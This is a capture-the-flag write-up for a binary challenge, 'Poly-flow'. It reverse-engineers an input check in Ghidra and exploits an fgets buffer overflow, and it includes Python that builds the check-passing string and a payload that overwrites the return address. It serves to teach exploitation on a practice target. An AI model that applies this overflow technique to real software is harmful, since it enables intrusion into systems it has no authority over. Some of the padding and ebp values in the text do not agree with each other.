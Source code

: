 # Poly-flow

## Analysis

### Opening in Ghidra

![Main function](./images/ghidra_main.png?raw=true "Main")

Checking the main function we can see the file takes one argument which is passed to check the function and its returned value is checked and if the returned value is not 0 then the input function is called else program is stopped with an incorrect message.

![Check function](./images/ghidra_check.png?raw=true "Check")

Analyzing check function it takes a string as input with the length of 16 and it splits it into 4 pieces of 4 bytes and adds them together and then it checks if the sum is equal to 0xdeadbeef if it's equal it return 1 else it returns 0 in all other cases.

![Input function](./images/ghidra_input.png?raw=true "Input")

The input function is where there is buffer overflow with changing the address of the return pointer.
It is a small function with a local variable[local_1c] and an "if condition" it checks if the variable I equal 0x5, if its equals we get our flag otherwise the value of i is incremented by one and then there is a call to fgets on local_1c variable but the length used is 0x24(36) but the length of local_1c variable is only 20 hence it is our exploit we can abuse this.

## Part One: Passing the check

### Reverse engineering the string

We can divide the number into 4 4-byte integer numbers and them make a string out of those pieces and concat them to get the required string

#### Code

```python3
>>> n = 0xdeadbeef
>>> a = 0xdeadbeef // 4
>>> n % 4
3
>>> a = 0xdeadbeef // 4 + 1
>>> b = 0xdeadbeef // 4
>>> 
>>> a * 3 + b == n
True
>>> a_str = a.to_bytes(4, 'little')
>>> b_str = b.to_bytes(4, 'little')
>>> inp = a_str * 3 + b_str
>>> print(inp)
b'\xbco\xab7\xbco\xab7\xbco\xab7\xbbo\xab7'
>>> len(inp)
16
>>> 
```

## Part Two: Buffer-Overflow

### Changing return address

We have to overflow [local_1c] variable and such that input function is called again (5 times since we have to change the value of variable I to reach 5 we can confirm in gdb that it starts with 0)

### doing it in the gdb

setting the breakpoint at input function and analysis from the gdb we infer for input function

```python3
addr_of_input_function = 0x56556248
ebp = 0xffffcf28
```

![Input function](./images/input.png?raw=true "GDB_Input")

In this image the value of ebp is written to 0x666666 which is ffff so the padding will be from a to g and then ebp and address of input function can come.

we will repeat 5 times and at the sixth time value of I will be changed to 5 and we will get the flag.

final input will be => "aaaabbbbccccddddeeee + ebp + addr_of_input_function\n" * 5

#### Code for buffer-overflow

```python3
padd = "aaaabbbbccccddddeeeeffff"

ebp = 0xffffcf48
ebp = ebp.to_bytes(4, 'little')

addr = 0x56556248
addr = addr.to_bytes(4, 'little')

print(b"\n".join([padd.encode('utf-8') + ebp + addr for i in range(5)]))
```
